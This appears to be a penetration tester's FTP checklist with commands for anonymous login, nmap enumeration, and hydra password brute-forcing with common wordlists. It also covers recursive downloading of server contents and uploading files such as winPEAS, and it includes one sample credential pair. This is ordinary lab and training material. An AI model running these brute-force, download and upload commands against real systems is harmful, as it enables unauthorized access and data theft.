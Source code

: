# FTP Checklist

1. See if there is anonymous access

```bash
ftp $ip
ftp $ip 21
ftp -A $ip
ftp -A $ip 21
# input anonymous as username and password
# try in the browser
ftp://anonymous:anonymous@10.10.10.98
```

2. Additional Enumeration

```bash
nmap --script ftp-* -p 21 $ip 
```

3. Brute force

```bash
hydra -l USERNAME -P /opt/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -f $ip ftp -V
hydra -l steph -P /usr/share/wfuzz/wordlist/others/common_pass.txt $ip -t 4 ftp
hydra -l steph -P /usr/share/wordlists/rockyou.txt $ip -t 4 ftp
hydra -L /opt/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt ftp://192.168.213.93
hydra -C /opt/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.213.93 ftp
```

3. Recursively download content

```bash
> prompt off
> recurse on
> mget *
```

or

````
wget -r ftp://steph:billabong@10.1.1.68/
wget -r ftp://anonymous:anonymous@192.168.204.157/

find / -name Settings.*  2>/dev/null #looking through the files
````

4. Interact

MAKE SURE THAT THE PERMISSIONS OF YOUR LOCAL FILE ALLOW YOU TO PUT.
````
# Put File
put test.txt #check if it is reflected in a http port

# Upload Binary
ftp> binary
200 Type set to I.
ftp> put winPEASx86.exe
````

#### Hydra for Simple Bruteforce

```bash
hydra -L usernames-shortlist -P best1050 $ip ftp
```